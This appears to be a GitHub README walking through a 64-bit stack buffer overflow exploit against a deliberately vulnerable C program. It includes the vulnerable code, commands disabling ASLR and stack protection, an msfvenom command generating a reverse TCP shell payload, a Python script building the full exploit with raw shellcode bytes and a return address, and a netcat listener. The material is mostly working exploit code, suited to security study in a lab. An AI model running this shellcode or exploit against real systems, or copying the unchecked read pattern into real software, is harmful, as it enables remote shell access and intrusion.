 # some buffer overflow examples

references from https://bytesoverbombs.io/exploiting-a-64-bit-buffer-overflow-469e8b500f10

## bad code

bufferoverflow.c
```c
#include <stdio.h>
#include <unistd.h>
int vuln() {
    // Define variables
    char arr[400];
    int return_status;
    // Grab user input
    printf("What's your name?\n");
    return_status = read(0, arr, 800);
    // Print user input
    printf("Hey %s", arr);
    // Return success
    return 0;
}
int main(int argc, char *argv[]) {
    // Call vulnerable function
    vuln();
    // Return success
    return 0;
}
```

## compile
```shell
#randomize_va_space , when set to 1 or 2, turns on ASLR on our target sys-tem. By default, randomization is turned on in Ubuntu, but we need this feature off for our example. If the file includes the value 0, we’re all set. If not, change the file contents to 0 and save it.
echo 0 > /proc/sys/kernel/randomize_va_space
# -fno-stack-protector flag to turn off GCC’s stack-protection mechanism, which would attempt to prevent buffer overflows if we left it turned on. The -z execstack compiler option makes the stack executable, disabling another buffer overflow prevention method

#The -g option tells GCC to add extra debugging information for GDB 
gcc -g -fno-stack-protector -z execstack -o bufferoverflow bufferoverflow.c
```

## generate malicious code
```shell
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Target host to connect
            LPORT=4444                  \ # Target port
         -b '\x00'                      \ # Bad characters
         -f python                        # Format of the payload
```
will to generat *buf* code
## payload

```python
# Payload generator
#!/usr/bin/python

## Total payload length
payload_length = 424
## Amount of nops
nop_length = 100
## Controlled memory address to return to in Little Endian format
## 0x7fffffffe2d0, this address was been foun through gdb. it's $rsp address
return_address = '\xd0\xe2\xff\xff\xff\x7f\x00\x00'
## Building the nop slide
nop_slide = "\x90" * nop_length


## Malicious code injection, generated by msfvenom
buf =  ""
buf += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x19\x1b\xa9\xe0\xc7\x3e\x20"
buf += "\x34\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x73\x32\xf1\x79\xad\x3c\x7f\x5e\x18\x45\xa6\xe5\x8f"
buf += "\xa9\x68\x8d\x1b\x1b\xb8\xbc\x07\x96\x22\x4a\x48\x53"
buf += "\x20\x06\xad\x2e\x7a\x5e\x33\x43\xa6\xe5\xad\x3d\x7e"
buf += "\x7c\xe6\xd5\xc3\xc1\x9f\x31\x25\x41\xef\x71\x92\xb8"
buf += "\x5e\x76\x9b\x1b\x7b\x72\xc7\xcf\xb4\x56\x20\x67\x51"
buf += "\x92\x4e\xb2\x90\x76\xa9\xd2\x16\x1e\xa9\xe0\xc7\x3e"
buf += "\x20\x34"

## Building the padding between buffer overflow start and return address
padding = 'B' * (payload_length - nop_length - len(buf))

print nop_slide + buf + padding + return_address
```

## listening
```shell
nc -lvp 4444 &
```

## gdb debug
```shell
gdb bufferoverflow
```

![breakpoint](https://github.com/wangxi19/traps/blob/master/images/breakpoint.png)

![beforexploiting](https://github.com/wangxi19/traps/blob/master/images/beforexploiting.png)

![afterexploiting](https://github.com/wangxi19/traps/blob/master/images/afterexploiting.png)